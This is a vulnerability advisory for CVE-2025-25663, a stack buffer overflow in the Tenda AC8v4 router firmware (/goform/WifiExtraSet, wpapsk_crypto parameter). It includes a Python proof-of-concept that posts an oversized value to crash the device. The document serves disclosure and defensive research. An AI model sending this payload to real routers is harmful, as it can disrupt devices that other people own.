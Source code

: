 # CVE-2025-25663

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

AC8v4 V16.03.34.06

## Vulnerability details

In the Tenda AC8v4 **V16.03.34.06** has a stack overflow vulnerability located in the `sub_46AC38` function. This function accepts the `wpapsk_crypto` parameter from a POST request by variable `wpapsk_crypto`.However, since the user has control over the input of `wpapsk_crypto`, the statement `strcpy(v21, src);` leads to a buffer overflow. The user-supplied `wpapsk_crypto` can exceed the capacity of the  `v21`  array, thus triggering this security vulnerability.

![img](https://s2.loli.net/2025/02/15/3fDEQdknCrHPbUp.png)

A vulnerability, which was classified as critical, was found in  Tenda AC8v4 **V16.03.34.06**. Affected is the function SUB_0046AC38 of the file /goform/WifiExtraSet. The manipulation of the argument wpapsk_crypto leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used.

## PoC

```python
import requests

url = "http://192.168.2.1/goform/WifiExtraSet"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
}

data = {
    "wifi_chkHz": "0",
    "wl_mode": "a24l",
    "mac": "111",  
    "handset": "0",
    "wpapsk_crypto": "s"*600,  
    "wpapsk_key": "bXF"  
}

response = requests.post(url, headers=headers, data=data)

print(response.status_code)
print(response.text)
```

![img](https://s2.loli.net/2025/02/15/spbiUO1xCPSf6yv.png)

## Discoverer

The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.